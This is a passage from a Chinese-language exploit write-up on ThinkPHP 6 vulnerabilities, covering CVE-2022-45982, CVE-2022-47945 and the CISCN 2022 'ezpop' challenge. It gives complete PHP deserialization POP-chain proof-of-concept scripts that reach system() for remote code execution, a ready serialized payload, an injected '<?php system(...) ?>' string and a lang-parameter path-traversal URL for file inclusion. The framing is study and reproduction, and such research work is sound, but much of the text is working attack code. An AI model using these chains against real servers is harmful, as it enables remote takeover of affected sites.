这里直接会走到 invokeMethod 方法，$callable 是数组\[new \\think\\view\\driver\\Php,'display'\]$vars 是一维数组:http://<?php system('calc'); exit(); ?>

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110600-213be628-d9d4-1.png)

先把$method 分开键值对，即 class 为\\think\\view\\driver\\Php,method 为 display，生成 reflect 反射对象  
最后调用$reflect->invokeArgs() 方法\`,走到 Php.php 的 display 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110607-256ca584-d9d4-1.png)

完成 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110614-292606c0-d9d4-1.png)

## CVE-2022-45982

### 范围

ThinkPHP 6.0.0~6.0.13 和 6.1.0~6.1.1

### 调试

入口点是 abstract class Model 的\_\_destruct() 方法

```plain
public function __destruct()
    {
        if ($this->lazySave) {
            $this->save();
        }
    }
```

进入 save() 方法之后  
$this->setAttrs($data);  
直接进入 Attribute.php 的 setAttrs() 方法直接返回没啥用在$result = $this->exists ? $this->updateData() : $this->insertData($sequence);这里会进入 updateData() 方法，我们设置了$this->exists 为 true 这里我们需要进入$this->getChangedData() 方法，因为里面涉及一些数组删除操作使我们能进入下面的 if 语句$data 是我们可控的$this->data，我们设置为\['a' => 'b'\]$this->readonly 我们设置好为\['a'\]经过 if 判断，删掉了$data 的内容，此时$data 为空回来 Model.php 正好进入 if 语句，调用$this->autoRelationUpdate() 方法我们可控 ($this->relationWrite 的内容，设置为一个二维数组

```plain
['r' =>  
    ["n" => $value]  
]
value 是一个 think\route\Url 类型的对象
```

调用到$model = $this->getRelation($name, true);我们控制$this->relation = \['r' => $this\];,$this 为本 Pivot 对象然后可以进入 if 语句调用$model->exists(true)->save($val);,此时$val 是被键值对分出的值，一维数组\["n" => $value\]  
然后就调用的 Model 的 save() 方法，这个危险方法应该很敏感了此时的$data 是一个\\think\\route\\Url 对象了进入 setAttrs()->Attribute.setAttrs()->$this->setAttr() 目标是拼接字符串，我们需要设置$this->origin = \["n" => $value\];去调用 Url.**toString() 方法->build() 然后走到我们常见的  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
$this->route 被设置为 think\\log\\Channel 对象，调用它的**call->log(->record() 我们自定义 lazy 变量为 false 进入 save() 调用$this->logger->save->Store.php 的 save() 熟悉的 serialize() 方法熟悉的 RCE 我们可控 Store.php 的一些变量

```plain
protected $serialize = ["call_user_func"];
$this->data = [$data, "param"];
$data 是 think\Request() 实例
```

调用的 call\_user\_func($this->data) 去了 Request 的 param() 函数  
进入 input() 函数先进入 getFilter() 获取$this->filter，用逗号分割开成数组，在加了一个 null($default)  
然后进入 filterValue() 方法调用 call\_user\_func($filter, $value)  
我们自定义的 request

```plain
protected $mergeParam = true;  
protected $param = ["whoami"];  
protected $filter = "system";
```

最终 RCE

### Poc

```plain
<?php

namespace think {
    abstract class Model
    {
        private $lazySave = true;
        private $data = ['a' => 'b'];
        private $exists = true;
        protected $withEvent = false;
        protected $readonly = ['a'];
        protected $relationWrite;
        private $relation;
        private $origin = [];

        public function __construct($value)
        {
            $this->relation = ['r' => $this];
            $this->origin = ["n" => $value];
            $this->relationWrite = ['r' =>
                ["n" => $value]
            ];
        }
    }

    class App
    {
        protected $request;
    }

    class Request
    {
        protected $mergeParam = true;
        protected $param = ["whoami"];
        protected $filter = "system";
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
}

namespace think\route {

    use think\App;

    class Url
    {
        protected $url = "";
        protected $domain = "domain";
        protected $route;
        protected $app;

        public function __construct($route)
        {
            $this->route = $route;
            $this->app = new App();
        }
    }
}

namespace think\log {
    class Channel
    {
        protected $lazy = false;
        protected $logger;
        protected $log = [];

        public function __construct($logger)
        {
            $this->logger = $logger;
        }
    }
}

namespace think\session {
    class Store
    {
        protected $data;
        protected $serialize = ["call_user_func"];
        protected $id = "";

        public function __construct($data)
        {
            $this->data = [$data, "param"];
        }
    }
}

namespace {
    $request = new think\Request();         //  param
    $store = new think\session\Store($request);     // save
    $channel = new think\log\Channel($store);     // __call
    $url = new think\route\Url($channel);   // __toString
    $model = new think\model\Pivot($url);   // __destruct
    echo urlencode(serialize($model));
}
```

## CVE-2022-47945

### 影响范围：

thinkphp<=6.0.13

### 描述

如果 Thinkphp 程序开启了多语言功能，那就可以通过 get、header、cookie 等位置传入参数，实现目录穿越 + 文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

### 复现：

#### thinkphp6.0.12

##### 安装

composer create-project topthink/think=6.0.12 tp6  
注意由于 composer 在安装时一些依赖的更新导致此时的 tp6 不是 6.0.12 而是 6.1.4，因此我们需要手动修改 composer.json 的 require 的内容：

```plain
"require": {
        "php": ">=7.2.5",
        "topthink/framework": "6.0.12",
        "topthink/think-orm": "^2.0"
    },
```

重新执行 composer install 即可

##### 调试

这里环境是 Windows+phpstorm 调试 phpstorm 打开 tp6 文件夹，添加一个 PHP 内置 Web 服务器的运行配置文件然后修改 app/middleware.php 的内容，把多语言加载的注释给删了

```plain
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    \think\middleware\LoadLangPack::class,
    // Session 初始化
    // \think\middleware\SessionInit::class
];
```

由于我们调试的是任意文件包含，我们在 public 目录写一个 test.php 以便调试

```plain
<?php
echo "test";
```

跳转\\think\\middleware\\LoadLangPack，下断点  
url: [http://localhost:1221/public?lang=../../../../../public/test](http://localhost:1221/public?lang=../../../../../public/test)开启调试：首先会调用 detect 函数来依次遍历 get，请求头和 cookie 是否有 lang 参数，也就是$this->config\['detect\_var'\]内置变量  
先小写一遍赋值给$langSet 变量而后由于$this->config\['allow\_lang\_list'\]变量默认是空的进入 if 语句将$langSet 赋值给$range 变量，而后调用 setLangSet() 函数将 Lang.php 的 private 属性的$range 变量赋值从默认的 zh-cn 改为../../../../../public/test  
然后会比较当前 langset 变量是否等于默认的"zh-cn",不等于进入 if 语句，调用 switchLangSet() 函数然后调用 load() 函数，参数是个只有一个值的数组，$this->app->getThinkPath() . 'lang' . DIRECTORY\_SEPARATOR . $langset . '.php'值为 D:\\phpstudy\_pro\\WWW\\think\\vendor\\topthink\\framework\\src\\lang../../../../../public/test.php 这里就是我们的目标文件地址进入 load() 函数：参数 file 就是这个目标文件地址，通过一个 foreach 循环来调用 parse() 函数  
这个 parse 函数就是最终 sink 点，先 pathinfo 取出后缀名来判断文件类型，然后包含文件最终成功包含 test.php 文件

## 代码审计题-ezpop

复现一道代码审计题，顺带学习一波  
环境搭建：  
composer create-project topthink/think tp6  
漏洞分析：1.打开源码，第一步从全局定位**destruct() 或**wakeup 进行搜索，寻找链子，发现在 vendor\\topthink\\think-orm\\src\\Model.php 只要把 $this->lazySave 设为 True，就会调用了 save 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110714-4d56108a-d9d4-1.png)

跟进 save 方法，发现此处需要绕过 if 函数为 True 即可过，这里跟进 isEmpty() 和 updateData() 方法分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110728-55568404-d9d4-1.png)

跟进 isEmpty 方法，发现$this->data 不为空，$this->trigger 方法默认返回就不是 false

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110740-5c71d1c6-d9d4-1.png)

继续跟进 updateData() 方法，发现检查允许字段 checkAllowFields() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110750-627aa322-d9d4-1.png)

继续跟进 checkAllowFields() 方法，来到方法 db，分析$table = $this->table ? $this->table . $this->suffix : $query->getTable();发现这里利用三元运算符，存在$this->table . $this->suffix 字符串拼接，可以触发\_\_toString() 魔术方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110758-67712bda-d9d4-1.png)

下面全局搜索**toString() 方法，定位到 vendor\\topthink\\think-orm\\src\\model\\concern\\Conversion.php 类中的**toString\*\*方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110811-6f4bbe92-d9d4-1.png)

来到 Conversion.php 类中，发现调用了 toJson() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110825-777ea232-d9d4-1.png)

继续跟进，发现来到了 toArray() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110834-7cb29628-d9d4-1.png)

继续跟进 toArray() 方法进行分析如下代码，发现如果 getAttr 默认就会触发，需要将$data 设为数组即可

```plain
public function toArray(): array
    {
        $item = $visible = $hidden = [];
        $hasVisible = false;

        foreach ($this->visible as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    [$relation, $name] = explode('.', $val);
                    $visible[$relation][] = $name;
                } else {
                    $visible[$val] = true;
                    $hasVisible = true;
                }
            }
        }

        foreach ($this->hidden as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    [$relation, $name] = explode('.', $val);
                    $hidden[$relation][] = $name;
                } else {
                    $hidden[$val] = true;
                }
            }
        }

        // 追加属性（必须定义获取器）
        foreach ($this->append as $key => $name) {
            $this->appendAttrToArray($item, $key, $name, $visible, $hidden);
        }

        // 合并关联数据
        $data = array_merge($this->data, $this->relation);

        foreach ($data as $key => $val) {
            if ($val instanceof Model || $val instanceof ModelCollection) {
                // 关联模型对象
                if (isset($visible[$key]) && is_array($visible[$key])) {
                    $val->visible($visible[$key]);
                } elseif (isset($hidden[$key]) && is_array($hidden[$key])) {
                    $val->hidden($hidden[$key], true);
                }
                // 关联模型对象
                if (!isset($hidden[$key]) || true !== $hidden[$key]) {
                    $item[$key] = $val->toArray();
                }
            } elseif (isset($visible[$key])) {
                $item[$key] = $this->getAttr($key);
            } elseif (!isset($hidden[$key]) && !$hasVisible) {
                $item[$key] = $this->getAttr($key);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110845-831e4c6e-d9d4-1.png)

继续跟进，这里跟进 getAttr() 方法，发现漏洞方法是 getValue

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110855-894cc6b0-d9d4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110903-8df4922e-d9d4-1.png)

继续挖掘，这里跟进 getData() 方法进行分析，发现 data 变量可控，分析$fieldName 变量，所以这里需要分析 getRealFieldName 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110912-9364cb84-d9d4-1.png)

跟进 getRealFieldName 方法，这里$name 直接返回，说明$fieldName 是可控的，因为前面说过$value = $this->getData($name); 说明$value 也是可控的。那么这里我们继续回到 getValue() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110921-989d1188-d9d4-1.png)

重新回到 getValue() 方法，继续分析，发现这里需要绕过两个 if 函数，来到 getJsonValue() 方法触发漏洞点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110930-9e4a00c8-d9d4-1.png)

继续分析，跟进 getJsonValue 方法，这里触发点需要满足 $this->jsonAssoc = True$value\[$key\] = $closure($value\[$key\], $value);

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110940-a4152aaa-d9d4-1.png)

通过分析，发现$closure 和$value 都可控，得到最后触发点

```plain
protected function getJsonValue($name, $value)
  {
    if (is_null($value)) {
      return $value;
    }

    foreach ($this->withAttr[$name] as $key => $closure) {
      if ($this->jsonAssoc) {
        $value[$key] = $closure($value[$key], $value);
      } else {
        $value->$key = $closure($value->$key, $value);
      }
    }
```

得到一条完整的 POP 链 Model.php => save() =>isEmpty() | updateData() => checkAllowFields() => db() => $this->table . $this->suffix=> 全局搜索 toString() => model\\concern\\Conversion.php => toJson() => toArray() => foreach() => getAttr($key) => getData()=> getValue() =>$value => getData($name) => getRealFieldName() => $fieldName/$data/$value 可控 => 返回 getValue() 方法=> 绕过两个 if 判断 => $this->withAttr 和$this->json 可控 => getJsonValue() => $this->jsonAssoc => 触发$closure($value\[$key\], $value)  
编写 POC

```plain
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls /']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace {
    echo (urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

//O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

来源题目 \[CISCN 2022 初赛\]ezpop

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110951-aa7693fc-d9d4-1.png)

tp 代码审计先告一段落了，后续陆续更新。比较冗长，浅当学习一波
